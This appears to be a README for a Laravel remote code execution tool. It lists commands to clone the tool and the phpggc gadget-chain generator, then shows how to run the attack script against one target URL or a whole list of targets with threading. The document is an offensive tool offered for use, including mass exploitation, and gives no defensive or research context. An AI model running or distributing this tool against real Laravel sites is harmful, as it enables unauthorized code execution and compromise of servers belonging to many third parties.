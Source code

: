 # Laravel-RCE

# Install
> git clone https://github.com/wibuheker/Laravel-RCE.git
> cd Laravel-RCE
> git clone https://github.com/ambionics/phpggc.git
> python3 run.py -h
# Usage

Single :
python3 run.py -t http://redacted.gg

Mass:
python3 run.py -t list.txt
or if u want use thread
python3 run.py -t list.txt --thread 2
